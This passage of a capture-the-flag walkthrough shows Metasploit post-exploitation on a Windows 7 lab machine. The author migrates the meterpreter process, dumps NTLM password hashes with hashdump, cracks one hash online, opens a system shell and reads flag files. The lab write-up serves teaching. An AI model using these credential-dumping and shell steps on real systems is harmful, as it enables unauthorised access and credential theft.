 
meterpreter > migrate 3036
[*] Migrating from 2260 to 3036...
[*] Migration completed successfully.{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 4 - Cracking

Use `msfconsole -q` to dump `hashes` of users.
{% capture code %}{% raw %}meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `firefox` and load the url [crackstation](https://crackstation.net){:target="_blank"} and crack the hash `ffb43f0de35be4d9917ac0cc8ad57f8d`.


## Task 5 - Find flags!

Use `msfconsole -q` to get a shell and find the flags.
{% capture code %}{% raw %}meterpreter > shell
Process 2076 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\>dir /s /p flag*
dir /s /p flag*
Volume in drive C has no label.
Volume Serial Number is E611-0B66

Directory of C:\

03/17/2019  02:27 PM                24 flag1.txt
            1 File(s)             24 bytes

Directory of C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent

03/17/2019  02:26 PM               482 flag1.lnk
03/17/2019  02:30 PM               848 flag2.lnk
03/17/2019  02:32 PM             2,344 flag3.lnk
            3 File(s)          3,674 bytes

Directory of C:\Users\Jon\Documents

03/17/2019  02:26 PM                37 flag3.txt
            1 File(s)             37 bytes

Directory of C:\Windows\System32\config

03/17/2019  02:32 PM                34 flag2.txt
            1 File(s)             34 bytes

Total Files Listed:
        6 File(s)          3,769 bytes
        0 Dir(s)  20,479,127,552 bytes free

C:\>type C:\flag1.txt
type C:\flag1.txt
<flag>

C:\>type C:\Windows\System32\config\flag2.txt
type C:\Windows\System32\config\flag2.txt
<flag>

C:\>type C:\Users\Jon\Documents\flag3.txt
type C:\Users\Jon\Documents\flag3.txt
<flag>{% endraw %}{% endcapture %} {% include code.html code=code %}

